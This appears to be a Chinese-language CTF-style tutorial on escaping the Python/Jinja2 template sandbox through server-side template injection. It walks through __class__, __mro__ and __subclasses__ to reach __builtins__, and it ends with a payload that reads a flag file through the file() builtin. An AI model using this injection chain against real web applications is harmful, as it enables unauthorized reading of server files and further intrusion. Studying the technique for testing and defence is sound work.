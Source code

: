 
```plain
函数解析
__class__ 返回调用的参数类型__bases__ 返回类型列表__mro__ 此属性是在方法解析期间寻找基类时考虑的类元组__subclasses__() 返回object的子类__globals__ 函数会以字典类型返回当前位置的全部全局变量 与 func_globals 等价
Plain Text
```



```plain
获取基本类:
''.__class__.__mro__[2]//mro找的会比base快作用类似
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[8]//针对jinjia2/flask为[9]适用
Plain Text
```



```plain
获取基本类后，继续向下获取基本类(object)的子类
object.__subclasses__()
Plain Text
```



```plain
找到重载过的__init__类(在获取初始化属性后，带wrapper的说明没有重载，寻找不带warpper的)所谓重载，就是多个相同函数名的函数，根据传入的参数个数，参数类型而执行不同的功能。所以函数重载实质上是为了解决编程中参数可变不统一的问题。然后就是重载了那还怎么用嘛。
''.__class__.__mro__[2].__subclasses__()[99].__init__//对99个实例化<slot wrapper '__init__' of 'object' objects>''.__class__.__mro__[2].__subclasses__()[59].__init__<unbound method WarningMessage.__init__>
Plain Text
```



```plain
查看其引用__builtins__builtins即是引用，Python程序一旦启动，它就会在程序员所写的代码没有运行之前就已经被加载到内存中了,而对于builtins却不用导入，它在任何模块都直接可见，所以这里直接调用引用的模块
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']
Plain Text
```






```plain
这里会返回dict类型，寻找keys中可用函数，直接调用即可，使用keys中的file以实现读取文件的功能
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('F://GetFlag.txt').read()
Plain Text
```



至此一条逃逸链就构造了出来。
